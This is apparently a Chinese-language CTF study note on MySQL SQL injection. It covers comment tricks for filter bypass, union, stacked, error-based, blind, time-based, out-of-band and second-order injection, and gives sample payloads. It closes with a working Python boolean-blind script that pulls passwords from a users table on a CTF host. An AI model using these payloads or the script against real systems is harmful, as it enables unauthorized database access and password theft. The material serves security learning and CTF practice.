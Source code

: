 主要以my_sql举例，偏向CTF题目类型。

## 注释

首先是SQL注入的注释，这是SQL注入的关键之一。

`-- `是SQL语法中的单行注释，在所有数据库系统都适用

`#`是Mysql独有的单行注释符，只能用于Mysql

`/* */`是SQL语法的多行注释 ，常用于绕过**过滤空格**

## 函数

- group_concat()
- database()
- mid()    ascii()    substr()    时间盲注
- updatexml()     extractvalue()   报错注入
- LOAD_FILE() 读文件

## 分类

大致区分为两类：**有回显**和**无回显**（盲注）

1. union注入：首先通过`order by`穷举查询列数，或者`union select 1,2,3....`查询列数（常见于过滤or）。然后确定回显列，然后插入**函数**获取信息。
   然后就是通过information_schema查表，列，最后select查询
2. 堆叠注入：类似命令执行，通过`;`结束上一句SQL语句，然后写新的语句。Mysql中主要靠`show`
3. 报错注入：常用有 `updatexml(1, concat(0x7e,database()), 1)`和`extractvalue(1,concat(0x7e,database()))`主要就是参数不同
4. 布尔盲注：通过页面返回是否变化判断SQL语句是否被执行
5. 延时注入：就是时间盲注，利用`benchmark()`函数多次执行另一个函数比如`md5()`，通过耗时的长短判断语句是否执行
6. 带外数据注入：构造特定的SQL语句向外发送数据，判断sql语句是否执行成功。主要是发起DNS查询，监控DNS日志（使用dnslog平台）
7. 二次注入：提交的恶意数据存在数据库后，应用程序再次读取出来生成新的SQL语句时发生注入。

一个典型的布尔盲注脚本：

```
import  requests
url = "http://eba63dae-3cf2-4f30-8b24-2d0e21aca58a.node5.buuoj.cn:81/image.php?id=\\0&path="
payload = " or ascii(substr((select password from users),{},1))>{}%23"
result = ''
for i in range(1,100):
    high = 127
    low = 32
    mid = (low+high) // 2
    # print(mid)
    while(high>low):
        r = requests.get(url + payload.format(i,mid))
       # print(url + payload.format(i,mid))
        if 'JFIF' in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    result += chr(mid)
    print(result)
```
